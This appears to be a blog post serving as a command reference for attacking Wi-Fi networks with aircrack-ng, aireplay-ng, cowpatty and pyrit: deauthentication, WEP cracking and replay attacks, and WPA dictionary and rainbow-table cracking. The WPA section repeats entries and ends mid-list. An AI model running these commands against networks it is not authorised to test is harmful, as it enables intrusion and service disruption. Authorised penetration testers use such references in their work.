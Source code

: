 ```yaml
---
title: Attacking Wifi - Commands
categories: [Hacking, Pen Testing, Wireless, Aircrack-ng]
layout: post
---
```

This post will highlight many of the different aircrack-ng commands used in hacking/pen testing wireless networks.  This post does not go into the how, but is more of a reference of the commands and parameters.

* [General](#general)
  * [Monitor Mode](#monitor-mode)
  * [Scanning Networks](#scanning-networks)
  * [Deauthentication Attack](#deauthentication-attack)
* [Cracking](#cracking)
  * [IV-based Crack](#iv-based-crack)
  * [PTW Crack](#ptw-based-crack)
  * [Word List Crack](#word-list-based-crack)
  * [Airolib DB Crack](#airolib-db-crack)
  * [JTR-based Crack](#jtr-based-crack)
* [WEP Attacks](#wep-attacks)
  * [Fake Authentication](#fake-authentication)
  * [ARP Request Replay Attack](#arp-request-replay-attack)
  * [Interactive Packet Replay Attack](#interactive-packet-replay-attack)
  * [KoreK ChopChop Attack](#korek-chopchop-attack)
  * [Fragmentation Attack](#fragmentation-attack)
  * [Craft ARP Request Packet](#craft-arp-request-packet)
  * [Inject Packet](#inject-packet)
  * [Fake Shared Key Authentication](#fake-shared-key-authentication) 
  
## General

### Monitor Mode
There are a couple different options for putting your wifi adapter into monitor mode.

> `iw dev <interface> set monitor none`

> `airmon-ng start <interface>`

### Scanning Networks
Airodump-ng is used to scan for wifi networks and clients that are in the range of your wireless card

> `airodump-ng -c <channel> -w <capture> --wps --band abg --essid <essid> --bssid <bssid> <int>`

The required parameters
* `<int>` The wireless interface that is in monitor mode

The following flags are all optional
* `-c <channel>` This will filter your scan to a specific wifi channel
* `--wps` This flag will include WPS information for wireless networks found
* `-w <capture>` This flag will write the scan results to a file
* `--band <bands>` This flag allows you to only scan wifi networks operating on specified bands
* `--essid <essid>` This flag will filter the scan to a specific Client
* `--bssid <bssid>` This flag will filter the scan to a specific AP

### Deauthentication Attack
This attacks sends disassociate packets to one or more clients connected to a specific AP
> `aireplay-ng -0 <num> -a <ap> -c <client> <int>`

All parameters and flags are required
* `-0` Deauthentication attack method
* `<num>` The number of deauths to send, 0 will send continuously
* `-a <ap>` The mac address of the AP
* `-c <client>` The mac address of the client to deauthenticate
* `<int>` The wireless interface to use

## Cracking

The following are various methods that can be used to crack the authentication of wireless networks.

### IV-based Crack

The following is a method of IV-based cracking.  This is aircrack-ng's default
methed of cracking when no flags are provided.  This method only works for WEP,
not WPA/WPA2/WPA3. 
> `aircrack-ng <capture>`

### PTW-based Crack

The PTW attack is both the newest and most powerful WEP attack.  It only
require 20,000 to 40,000 packets to be successful, though in some cases as many
as 70,000 packets could be needed for a successful attack.
> `aircrack-ng -z <capture>`

* `-z` Invokes WEP PTW Attack mode

### Word List-based Crack

This method works for both WEP and WPA-PSK cracking.
> `aircrack-ng -w <wordlist> <capture>`

* `-w <wordlist>` The wordlist to use to try and crack WEP/WPA-PSK

### Airolib DB Crack
> `aircrack-ng -r <dbName> <capture>`

### JTR-based Crack
> `john --wordlist=<wordlist> --rules --stdout | aircrack-ng -e <essid> -w - <capture>`

## WEP Attacks

#### Fake Authentication
> `aireplay-ng -1 0 -e <essid> -a <ap> -h <you> <interface>`

#### ARP Request Replay Attack
> `aireplay-ng -3 -b <ap> -h <you> <interface>`

#### Interactive Packet Replay Attack
> `aireplay-ng -2 -b <ap> -d ff:ff:ff:ff:ff:ff -f 1 -m 68 -n 86 <interface>`

#### KoreK chopchop attack
> `aireplay-ng -4 -b <ap> -h <you> <interface>`

#### Fragmentaion Attack
> `aireplay-ng -5 -b <ap> -h <you> <interface>`

#### Craft ARP Request Packet**
> `packetforge-ng -0 -a <ap> -h <you> -l <sourceIP> -k <destIP> -y <xorFile> -w <out>`

#### Inject Packet**
> `aireplay-ng -2 -r <packet> <interface>`

#### Fake Shared Key Authentication
> `aireplay -1 -0 -e <essid> -y <captureFile> -a <ap> -h <you> <interface>`

## WPA Attacks

#### coWPAtty Attack 
> `cowpatty -r <capture> -f <wordlist> -2 -s <essid>`

#### Rainbow Table Generation
> `genpmk -f <wordlist> -d <hashesFilename> -s <essid>`

#### Rainbow Table coWPAtty Attack
> `cowpatty -r <capture> -d <hashesFilename> -2 -s <essid>`

#### Pyrit Sniff
> `pyrit -r <interface> -o <capture> stripLive`

#### Pyrit Crack Dictionary
> `pyrit -r <capture> -i <wordlist> -b <ap> attack_passthrough`

#### Pyrit Crack Database
Import Wordlist into Database
> `pyrit -i <wordlist> import_passwords`

Add the ESSID of the Access Point

#### Pyrit Crack Dictionary
> `pyrit -r <capture> -i <wordlist> -b <ap> attack_passthrough`

#### Pyrit Crack Database
Import Wordlist into Database
> `pyrit -i <wordlist> import_passwords`

Add the ESSID of the Access Point

